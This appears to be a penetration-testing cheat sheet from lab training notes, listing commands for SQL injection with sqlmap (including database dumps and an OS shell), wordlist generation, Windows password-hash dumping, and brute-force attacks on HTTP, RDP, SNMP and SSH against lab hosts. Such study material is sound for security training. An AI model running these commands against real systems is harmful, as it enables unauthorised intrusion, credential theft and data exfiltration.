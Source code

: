 ### SQLmap

```text
$ sqlmap -u http://10.11.1.35 --crawl=1

$ sqlmap -u http://10.11.1.35/comment.php?id=738 --dbms=mysql --dump --threads=5

$ sqlmap -u http://10.11.1.35/comment.php?id=738 --dbms=mysql --os-shell
```

## Password Cracking

```text
$ crunch 6 6 0123456789ABCDEF -o crunch1.txt

$ wc -l crunch1.txt

$ crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha

$ cat dumped.pass.txt

$ crunch 8 8 -t ,@@^^%%%

C:\>fgdump.exe

C:\>type 127.0.0.1.pwdump

$ cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt

$ wc -l megacorp-cewl.txt

$ grep nanobot megacorp-cewl.txt

$ john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt

$ grep nanobots mutated.txt

$ john --wordlist=megacorp-cewl.txt --rules --stdout >hugepass.txt
```

### Online Password Attacks

```text
$ medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10

$ ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35

$ hydra -P password-file.txt -v 10.11.1.219 snmp

$ hydra -l root -P password-file.txt 10.11.1.219 ssh
```
